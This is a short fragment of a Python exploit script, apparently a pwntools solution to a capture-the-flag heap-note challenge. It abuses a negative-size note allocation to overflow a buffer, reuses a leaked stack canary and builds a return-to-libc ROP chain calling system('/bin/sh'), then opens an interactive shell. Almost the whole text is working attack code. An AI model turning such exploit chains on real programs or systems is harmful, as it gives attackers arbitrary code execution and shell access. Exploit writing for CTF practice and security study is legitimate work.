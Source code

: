 ```py

print(hex(libc.address), hex(e.address), hex(main_ret_address))

overflow_note = add_note(-100, 'A')

BINSH = next(libc.search(b"/bin/sh"))
SYSTEM = libc.sym["system"]

print(hex(BINSH), hex(SYSTEM))

rop_chain = 264 * b'A' + p64(canary) + b"BBBBBBBB" + p64(POPRDI) + p64(BINSH) + p64(RET) +  p64(SYSTEM)

print(rop_chain)
edit_note(overflow_note, rop_chain)



p.interactive()

```

